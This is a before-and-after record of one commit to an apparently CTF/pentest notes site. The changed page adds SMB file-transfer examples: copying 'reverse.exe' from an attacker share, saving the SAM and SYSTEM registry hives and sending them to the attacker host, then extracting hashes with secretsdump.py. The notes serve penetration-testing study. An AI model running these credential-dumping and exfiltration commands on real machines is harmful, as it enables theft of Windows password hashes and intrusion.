

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/networks/servers.md, in a window 1280 px wide and 900 px high, scrolled down 756 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 1447 px from its top, so only the background shows below that.

Commit message:
add smb with practical example

````diff
--- a/docs/pentest/networks/servers.md
+++ b/docs/pentest/networks/servers.md
@@ -53,13 +53,24 @@ $ curl localhost:4444/hello
 Server (on 10.9.52.138) :
 
 ```bash
-$ smbserver.py tmpshare .
+$ sudo smbserver.py tmpshare .
 Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
+[...]
+$ sudo smbserver.py -smb2support tmpshare .
 [...]
 ```
 
 Client :
 
 ```bash
+# Download from SMB server.
 C:\ > copy \\10.9.52.138\tmpshare\reverse.exe .
+
+# Send to SMB server.
+C:\ > reg.exe save HKLM\SAM sam.bak
+C:\ > copy sam.bak \\10.9.52.138\tmpshare\sam
+# or
+C:\ > reg.exe save HKLM\SYSTEM \\10.9.52.138\tmpshare\system
+$ secretsdump.py -sam sam -system system LOCAL
+[...]
 ```
````
